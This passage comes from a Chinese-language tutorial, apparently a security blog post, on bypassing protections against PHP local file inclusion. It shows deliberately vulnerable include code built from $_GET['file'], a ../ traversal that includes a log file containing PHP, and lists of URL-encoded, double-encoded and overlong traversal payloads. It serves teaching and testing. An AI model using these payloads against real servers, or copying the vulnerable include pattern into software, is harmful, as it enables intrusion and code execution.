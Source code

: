 ## 绕过姿势

接下来谈一谈绕过姿势。实战的时候肯定不会是像上面`包含姿势`的测试代码中那样简简单单的`include $_GET['file'];`这样直接把变量传入包含函数的。在很多时候包含的变量/文件不是完全可控的，比如下面这段代码指定了前缀和后缀：

```
&lt;?php
    $file = $_GET['file'];
    include '/var/www/html/'.$file.'/test/test.php';
?&gt;
```

这样就很“难”直接去包含前面提到的种种文件。

### <a class="reference-link" name="%E9%81%87%E5%88%B0%E6%8C%87%E5%AE%9A%E5%89%8D%E7%BC%80%E7%9A%84%E6%83%85%E5%86%B5"></a>遇到指定前缀的情况

先考虑一下指定了前缀的情况吧。测试代码:

```
&lt;?php
    $file = $_GET['file'];
    include '/var/www/html/'.$file;
?&gt;
```

这里存在一个疑惑，不知道有没有人可以解答下：

我测试了用Windows下的phpstudy。如果用Windows的话，`include 'D:\phpStudy\PHPTutorial\WWW\'.$file;`，然后目录遍历`../`会报错`Parse error:syntax error, unexpected ''D:\phpStudy\PHPTutorial\WWW\'' (T_ENCAPSED_AND_WHITESPACE) in D:\phpStudy\PHPTutorial\WWW\fileinclude1.php on line 3`，最后一个反斜杠`\`必须要写成正斜杠`/`然后用目录遍历`../`才能成功。

**<a class="reference-link" name="%E8%A7%A3%E5%86%B3%EF%BC%9A%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86"></a>解决：目录遍历**

现在在`/var/log/test.txt`文件中有php代码`&lt;?php phpinfo();?&gt;`，则利用`../`可以进行目录遍历，比如我们尝试访问：

```
include.php?file=../../log/test.txt
```

则服务器端实际拼接出来的路径为：`/var/www/html/../../log/test.txt`，也即`/var/log/test.txt`。从而包含成功。

[![](https://p1.ssl.qhimg.com/t01254a3bc341b1cb02.png)](https://p1.ssl.qhimg.com/t01254a3bc341b1cb02.png)

**<a class="reference-link" name="%E8%A7%A3%E5%86%B3%EF%BC%9A%E7%BC%96%E7%A0%81%E7%BB%95%E8%BF%87"></a>解决：编码绕过**

服务器端常常会对于../等做一些过滤，可以用一些编码来进行绕过。<br>**1.利用url编码**
<li>../
<ul>
- %2e%2e%2f
- ..%2f
- %2e%2e/- %2e%2e%5c
- ..%5c
- %2e%2e\
**2.二次编码**
<li>../
<ul>
- %252e%252e%252f- %252e%252e%255c
**3.容器/服务器的编码方式**
<li>../
<ul>
<li>..%c0%af
<ul>
<li>注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
</li>- 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）